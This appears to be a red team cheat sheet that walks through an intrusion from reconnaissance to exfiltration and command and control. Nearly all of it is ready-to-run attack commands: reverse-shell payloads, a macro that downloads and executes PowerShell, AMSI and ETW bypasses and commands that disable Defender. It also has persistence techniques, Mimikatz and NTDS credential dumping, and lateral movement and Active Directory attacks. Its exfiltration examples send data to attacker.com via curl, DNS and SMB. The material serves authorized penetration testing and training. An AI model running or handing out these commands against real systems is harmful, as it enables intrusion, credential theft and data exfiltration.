



Table of Contents
Disclaimer: This cheat sheet is for authorized security testing and educational purposes only. Always obtain proper authorization before conducting security assessments.
Red Team Operation Overview
Complete red team operation workflow - from reconnaissance to reporting
Reconnaissance
Passive Reconnaissance
OSINT Tools
# theHarvester - Email and subdomain enumeration
theHarvester -d target.com -b all
# Amass - Subdomain enumeration
amass enum -d target.com -passive
amass enum -d target.com -active -brute
# Subfinder
subfinder -d target.com -all -o subdomains.txt
# Google Dorks
site:target.com filetype:pdf
site:target.com inurl:admin
site:target.com intitle:"index of"
site:target.com ext:sql | ext:db | ext:logDNS Enumeration
# DNSRecon
dnsrecon -d target.com -t std
dnsrecon -d target.com -t axfr
# Dig commands
dig target.com ANY
dig target.com MX
dig target.com NS
dig @ns1.target.com target.com AXFR
# DNSEnum
dnsenum target.comActive Reconnaissance
Network Scanning - Nmap
# Host discovery
nmap -sn 192.168.1.0/24
# Port scanning
nmap -sS -sV -sC -O -p- target.com -oA full_scan
nmap -sU -sV --top-ports 100 target.com
# Vulnerability scanning
nmap --script vuln target.com
# Stealth scanning
nmap -sS -T2 -f --data-length 24 target.comWeb Enumeration
# Directory bruteforcing
gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
feroxbuster -u http://target.com -w wordlist.txt
# Nikto
nikto -h http://target.com
# WhatWeb
whatweb http://target.com
# Nuclei
nuclei -u http://target.com -t cves/Initial Access
Initial access and payload delivery workflow
Phishing
GoPhish Setup
# Install GoPhish
wget https://github.com/gophish/gophish/releases/latest/download/gophish-v0.12.1-linux-64bit.zip
unzip gophish-v0.12.1-linux-64bit.zip
chmod +x gophish
./gophishPayload Generation
# HTA payload
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f hta-psh -o payload.hta
# Macro-enabled document (msfvenom)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f vba
# Office macro (manual)
Sub AutoOpen()
Shell "powershell -ep bypass -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://IP/payload.ps1')"
End SubExternal Services
# Password spraying - O365
python3 o365spray.py --spray -U users.txt -P passwords.txt --url https://login.microsoftonline.com
# OWA spraying
Ruler --domain target.com spray --users users.txt --passwords passwords.txt
# SSH bruteforce
hydra -L users.txt -P passwords.txt ssh://target.comExecution
PowerShell
# Download and execute
IEX(New-Object Net.WebClient).DownloadString('http://IP/script.ps1')
IEX(IWR -Uri 'http://IP/script.ps1' -UseBasicParsing)
# Encoded command
$cmd = 'IEX(IWR http://IP/script.ps1)'
$bytes = [Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell -enc $encoded
# AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Constrained Language Mode bypass
powershell -version 2 -c "command"Living off the Land (LOLBins)
# Certutil
certutil -urlcache -split -f http://IP/payload.exe payload.exe
# Bitsadmin
bitsadmin /transfer job /download /priority high http://IP/payload.exe C:\Windows\Temp\payload.exe
# Mshta
mshta http://IP/payload.hta
# Regsvr32
regsvr32 /s /n /u /i:http://IP/payload.sct scrobj.dll
# Rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://IP/payload.sct");close();
# WMIC
wmic process call create "powershell -ep bypass -c IEX(IWR http://IP/payload.ps1)"Persistence
Persistence and defense evasion techniques workflow
Registry Run Keys
# Current user
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\payload.exe"
# All users (requires admin)
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\payload.exe"
# PowerShell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "C:\payload.exe"Scheduled Tasks
# Create scheduled task
schtasks /create /sc minute /mo 5 /tn "Updater" /tr "C:\payload.exe" /ru SYSTEM
# PowerShell
$action = New-ScheduledTaskAction -Execute "C:\payload.exe"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $action -Trigger $trigger -User "SYSTEM"Services
# Create service
sc create Updater binPath= "C:\payload.exe" start= auto
sc start Updater
# PowerShell
New-Service -Name "Updater" -BinaryPathName "C:\payload.exe" -StartupType AutomaticWMI Event Subscriptions
# PowerShell WMI persistence
$filterName = 'PersistFilter'
$consumerName = 'PersistConsumer'
$command = 'C:\payload.exe'
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{
Name = $filterName
EventNameSpace = "root\cimv2"
QueryLanguage = "WQL"
Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -NameSpace "root\subscription" -Arguments @{
Name = $consumerName
CommandLineTemplate = $command
}Privilege Escalation
Windows Enumeration
# WinPEAS
.\winPEASany.exe
# PowerUp
Import-Module .\PowerUp.ps1
Invoke-AllChecks
# Seatbelt
.\Seatbelt.exe -group=all
# Manual checks
whoami /priv
whoami /groups
systeminfo
wmic qfe list
net user
net localgroup administratorsToken Manipulation
# Check privileges
whoami /priv
# SeImpersonatePrivilege exploitation
# PrintSpoofer
.\PrintSpoofer.exe -i -c "cmd"
# JuicyPotato (older systems)
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {CLSID}
# GodPotato
.\GodPotato.exe -cmd "cmd /c whoami"
# SweetPotato
.\SweetPotato.exe -p c:\windows\system32\cmd.exe -a "/c whoami"Unquoted Service Paths
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\"
# PowerShell
Get-WmiObject win32_service | Select-Object Name,PathName | Where-Object {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'}DLL Hijacking
# Find missing DLLs
procmon.exe # Filter: Result contains "NAME NOT FOUND" and Path ends with ".dll"
# Generate malicious DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f dll -o payload.dllLinux Privilege Escalation
# LinPEAS
./linpeas.sh
# SUID binaries
find / -perm -4000 -type f 2>/dev/null
# Capabilities
getcap -r / 2>/dev/null
# Sudo permissions
sudo -l
# Writable /etc/passwd
echo 'root2:$1$salt$hash:0:0:root:/root:/bin/bash' >> /etc/passwd
# Kernel exploits
uname -a
searchsploit linux kernel $(uname -r)Defense Evasion
AMSI Bypass
# Memory patching
$a=[Ref].Assembly.GetTypes();ForEach($b in $a){if($b.Name -like "*iUtils"){$c=$b}};$d=$c.GetFields('NonPublic,Static');ForEach($e in $d){if($e.Name -like "*Context"){$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)
# Reflection method
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x41414141)ETW Bypass
# Disable ETW
$a=[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static');$b=$a.GetValue($null);[IntPtr]$c=$b.m_nativeProviderHandle;[System.Runtime.InteropServices.Marshal]::WriteInt32($c,0)Disabling Defender
# PowerShell (requires admin)
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Add-MpPreference -ExclusionPath "C:\Tools"
# Command line
sc stop WinDefend
sc config WinDefend start= disabledCredential Access
Mimikatz
# Dump credentials
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
# Dump SAM
mimikatz # lsadump::sam
# Dump cached credentials
mimikatz # lsadump::cache
# Dump DPAPI
mimikatz # sekurlsa::dpapi
# DCSync
mimikatz # lsadump::dcsync /user:krbtgt /domain:target.local
# Pass-the-Hash
mimikatz # sekurlsa::pth /user:Administrator /domain:target.local /ntlm:HASH /run:cmd
# Golden Ticket
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21... /krbtgt:HASH /ptt
# Silver Ticket
mimikatz # kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21... /target:server.target.local /service:cifs /rc4:HASH /pttRubeus
# Kerberoasting
Rubeus.exe kerberoast /outfile:hashes.txt
# AS-REP Roasting
Rubeus.exe asreproast /outfile:hashes.txt
# Request TGT
Rubeus.exe asktgt /user:USER /password:PASSWORD /domain:target.local
# Pass-the-Ticket
Rubeus.exe ptt /ticket:base64_ticket
# Overpass-the-Hash
Rubeus.exe asktgt /user:USER /rc4:HASH /pttSAM and NTDS Extraction
# Volume Shadow Copy
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\system
# Secretsdump (Impacket)
secretsdump.py -ntds ntds.dit -system system LOCAL
secretsdump.py domain/user:password@DC_IP
# Registry dump
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive
reg save HKLM\SECURITY security.hiveLateral Movement
PsExec
# Sysinternals PsExec
psexec.exe \\TARGET -u DOMAIN\User -p Password cmd.exe
# Impacket PsExec
psexec.py domain/user:password@TARGET
psexec.py -hashes :NTHASH domain/user@TARGETWMI
# WMI command execution
wmic /node:TARGET /user:DOMAIN\User /password:Password process call create "cmd.exe /c command"
# Impacket WMIExec
wmiexec.py domain/user:password@TARGET
wmiexec.py -hashes :NTHASH domain/user@TARGETWinRM
# PowerShell Remoting
Enter-PSSession -ComputerName TARGET -Credential DOMAIN\User
Invoke-Command -ComputerName TARGET -ScriptBlock {whoami} -Credential DOMAIN\User
# Evil-WinRM
evil-winrm -i TARGET -u User -p Password
evil-winrm -i TARGET -u User -H NTHASHSMB
# Impacket SMBExec
smbexec.py domain/user:password@TARGET
# CrackMapExec
crackmapexec smb TARGET -u User -p Password -x "whoami"
crackmapexec smb TARGET -u User -H NTHASH --exec-method smbexec -x "whoami"DCOM
# Impacket DCOM
dcomexec.py -object MMC20 domain/user:password@TARGET
dcomexec.py -object ShellBrowserWindow domain/user:password@TARGETRDP
# Enable RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall set service remotedesktop enable
# Restricted Admin Mode (Pass-the-Hash)
mstsc.exe /restrictedadmin
# SharpRDP
SharpRDP.exe computername=TARGET command="powershell -c IEX(...)" username=DOMAIN\User password=PasswordCollection & Exfiltration

Collection, exfiltration, and cleanup workflow
Data Collection
# Find sensitive files
dir /s /b *password* *cred* *secret* *.kdbx *.config 2>nul
findstr /si password *.txt *.xml *.config *.ini
# PowerShell search
Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.doc -Recurse -ErrorAction SilentlyContinue
# SharpShares - Enumerate shares
SharpShares.exeExfiltration
# HTTP exfiltration
curl -X POST -F "file=@data.zip" http://attacker.com/upload
# DNS exfiltration
for line in $(base64 data.txt); do dig $line.attacker.com; done
# SMB exfiltration
net use \\attacker.com\share /user:user password
copy data.zip \\attacker.com\share\Command & Control
Cobalt Strike
# Start team server
./teamserver IP password
# Common beacon commands
beacon> shell whoami
beacon> powershell-import /path/to/script.ps1
beacon> execute-assembly /path/to/tool.exe
beacon> jump psexec TARGET listener
beacon> dcsync domain.local DOMAIN\krbtgtSliver
# Generate implant
sliver > generate --mtls IP:443 --os windows --arch amd64 -s /output/path
# Start listener
sliver > mtls -l 443
# Common commands
sliver (IMPLANT) > info
sliver (IMPLANT) > execute -o whoami
sliver (IMPLANT) > upload /local/file /remote/path
sliver (IMPLANT) > download /remote/file /local/pathMetasploit
# Generate payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -f exe -o payload.exe
# Handler
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST IP
set LPORT 443
exploit
# Common commands
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getsystem
meterpreter > hashdump
meterpreter > migrate PIDActive Directory Attacks
BloodHound
# SharpHound collection
SharpHound.exe -c All
SharpHound.exe -c All --ldapusername USER --ldappassword PASS
# BloodHound.py (remote)
bloodhound-python -u user -p password -d domain.local -ns DC_IP -c allKerberos Attacks
# Kerberoasting
GetUserSPNs.py domain.local/user:password -dc-ip DC_IP -request
hashcat -m 13100 hashes.txt wordlist.txt
# AS-REP Roasting
GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip DC_IP -format hashcat
hashcat -m 18200 hashes.txt wordlist.txt
# Unconstrained Delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Rubeus.exe monitor /interval:5
# Constrained Delegation
Get-ADUser -Filter {msds-allowedtodelegateto -ne "$null"} -Properties msds-allowedtodelegateto
getST.py -spn SERVICE/TARGET -impersonate Administrator domain.local/user:passwordACL Abuse
# GenericAll on user
net user TARGET NewPassword /domain
# GenericWrite on user
Set-ADUser -Identity TARGET -ServicePrincipalNames @{Add='fake/spn'}
# WriteDACL
Add-ObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity user -Rights All
# ForceChangePassword
Set-ADAccountPassword -Identity TARGET -NewPassword (ConvertTo-SecureString 'NewPass123!' -AsPlainText -Force)Certificate Attacks (ADCS)
# Certipy enumeration
certipy find -u user@domain.local -p password -dc-ip DC_IP
# ESC1 - Template allows requestor to specify SAN
certipy req -u user@domain.local -p password -target CA_SERVER -template VulnTemplate -upn administrator@domain.local
# ESC4 - Vulnerable certificate template ACL
certipy template -u user@domain.local -p password -template VulnTemplate -save-old
certipy req -u user@domain.local -p password -target CA_SERVER -template VulnTemplate
# PKINIT authentication
certipy auth -pfx administrator.pfx -dc-ip DC_IPTrust Attacks
# Enumerate trusts
Get-ADTrust -Filter *
nltest /domain_trusts
# SID History injection
mimikatz # kerberos::golden /user:Administrator /domain:child.local /sid:S-1-5-21-child /sids:S-1-5-21-parent-519 /krbtgt:HASH /ptt
# Inter-forest attacks
Rubeus.exe asktgt /user:user /domain:domain.local /rc4:HASH /createnetonly:C:\Windows\System32\cmd.exeUseful Resources & Tool Reference
Reference Links
- MITRE ATT&CK - Adversary tactics and techniques knowledge base
- HackTricks - Comprehensive hacking methodology
- PayloadsAllTheThings - Useful payloads and bypass for security testing
- LOLBAS - Living Off The Land Binaries and Scripts
- GTFOBins - Unix binaries for privilege escalation
- WADComs - Windows/AD interactive cheat sheet
- LOLDrivers - Vulnerable drivers database
Reconnaissance Tools
- Subfinder - Fast passive subdomain enumeration
- Amass - In-depth attack surface mapping
- httpx - Fast HTTP toolkit
- Nuclei - Vulnerability scanner with templates
- theHarvester - OSINT tool for email/subdomain gathering
- Gobuster - Directory/DNS bruteforcing
- Feroxbuster - Fast content discovery tool
- gowitness - Web screenshot utility
- Sublist3r - Subdomain enumeration using OSINT
Cloud Reconnaissance
- MicroBurst - Azure security assessment tools
- ScoutSuite - Multi-cloud security auditing
- Pacu - AWS exploitation framework
- Prowler - AWS/Azure/GCP security assessments
- PowerZure - Azure PowerShell assessment
- CloudPentestCheatsheets - Cloud pentest reference
Initial Access & Phishing
- GoPhish - Open-source phishing framework
- Evilginx2 - Man-in-the-middle attack framework
- SprayingToolkit - Password spraying tools
- Ruler - Exchange/O365 exploitation
- PhishInSuits - OAuth phishing tool
- macro_pack - Office document payload generator
Privilege Escalation - Windows
- WinPEAS - Windows privilege escalation scanner
- PowerUp - PowerShell privesc checks
- Seatbelt - Windows security enumeration
- PrintSpoofer - SeImpersonatePrivilege exploit
- GodPotato - Potato privilege escalation
- SweetPotato - Service account to SYSTEM
- JuicyPotato - COM object privilege escalation
Privilege Escalation - Linux
- LinPEAS - Linux privilege escalation scanner
- pspy - Linux process monitoring
- LinEnum - Linux enumeration script
- linux-exploit-suggester - Kernel exploit suggestions
- linux-exploit-suggester-2 - Next-gen exploit suggester
Post-Exploitation & Credential Access
- Mimikatz - Windows credential extraction
- Rubeus - Kerberos abuse toolkit
- Impacket - Network protocol implementations
- SharpDPAPI - DPAPI credential extraction
- pypykatz - Python Mimikatz implementation
- lsassy - Remote LSASS credential dump
- LaZagne - Multi-platform credential recovery
Lateral Movement
- CrackMapExec - Swiss army knife for AD pentesting
- NetExec - CrackMapExec successor
- lsassy - Remote credential extraction
- Evil-WinRM - WinRM shell for pentesting
- RdpThief - RDP credential extraction
- SharpMapExec - C# network tool
Active Directory
- BloodHound - AD relationship analysis
- BloodHound.py - Python BloodHound collector
- Certipy - AD CS attack tool
- Certify - AD CS enumeration
- Certi - AD CS tool
- PowerSploit - PowerShell post-exploitation
- Powermad - PowerShell MachineAccountQuota
- ldapdomaindump - LDAP domain enumeration
C2 Frameworks
- Sliver - Open-source C2 framework
- Havoc - Modern C2 framework
- Covenant - .NET C2 framework
- Empire - PowerShell/Python post-exploitation
- Villain - Windows/Linux C2 framework
- SILENTTRINITY - Async C2 framework
- PoshC2 - C2 with proxy support
Evasion & AV Bypass
- ScareCrow - Payload creation for evasion
- Inceptor - Template-based AV evasion
- SharpCollection - Pre-compiled .NET tools
- ThreatCheck - AV signature detection
- AMSI Bypass - AMSI bypass collection
- CheckPlease - Sandbox evasion modules